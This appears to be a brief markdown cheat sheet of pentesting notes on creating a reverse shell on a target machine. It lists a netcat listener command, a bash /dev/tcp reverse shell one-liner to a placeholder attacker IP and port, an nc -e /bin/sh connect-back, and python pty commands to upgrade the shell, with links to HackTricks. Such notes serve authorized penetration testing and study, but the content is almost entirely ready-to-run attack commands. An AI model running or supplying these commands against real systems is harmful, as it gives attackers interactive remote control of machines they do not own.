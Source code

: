 ### Create a reverse bash shell

- Setup listener on your local machine
`sudo nc -lvn 9898`

- Connect to the listener from the target
-  - `bash -c 'bash -i >& /dev/tcp/your-ip/your-port 0>&1'`
-  - `nc 127.0.0.1 8888 -e /bin/sh`

- Upgrade to a shell (Use the bash when doing this. zsh doesn't seem to work)
-  - `python3 -c 'import pty; pty.spawn("/bin/sh")'`
-  - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
-  - https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys


### A long list of ways to create a reverse shell
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux
